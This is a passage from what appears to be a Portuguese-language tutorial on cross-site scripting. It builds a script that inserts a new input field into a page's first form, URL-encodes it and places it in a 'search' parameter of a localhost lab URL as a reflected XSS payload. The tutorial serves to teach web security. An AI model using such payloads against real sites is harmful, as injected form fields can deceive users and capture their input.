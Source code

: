 Já para identificar os elementos em um formulário, podemos utilizar o método `elements` que também cria um *array* com todos os elementos do formulário. Portanto, para identificar o primeiro elemento de um formulário, podemos fazer da seguinte forma:

```javascript
document.forms[0].elements[0]
```

Neste caso, para criarmos e inserirmos um novo campo, podemos criar dois objetos, um contendo o novo campo, e outro contendo o campo de referência utilizado para o posicionamento, e logo em seguida invocar o método `insertBefore()`.

```html
<script>
	var input = document.createElement("input");
	var prev = document.forms[0].elements[0];
	document.forms[0].insertBefore(input, prev);
</script>
```

Convertendo para *URL Encode*:

```
%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22input%22%29%3B%0A%09var%20prev%20%3D%20document.forms%5B0%5D.elements%5B0%5D%3B%0A%09document.forms%5B0%5D.insertBefore%28input%2C%20prev%29%3B%0A%3C%2Fscript%3E
```

Gerando a seguinte URL:

- [http://localhost/02/?search=%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22input%22%29%3B%0A%09var%20prev%20%3D%20document.forms%5B0%5D.elements%5B0%5D%3B%0A%09document.forms%5B0%5D.insertBefore%28input%2C%20prev%29%3B%0A%3C%2Fscript%3E](http://localhost/02/?search=%3Cscript%3E%0A%09var%20input%20%3D%20document.createElement%28%22input%22%29%3B%0A%09var%20prev%20%3D%20document.forms%5B0%5D.elements%5B0%5D%3B%0A%09document.forms%5B0%5D.insertBefore%28input%2C%20prev%29%3B%0A%3C%2Fscript%3E)

![Form](/img/posts/2023-06-21-beyond-the-alert-7.png)
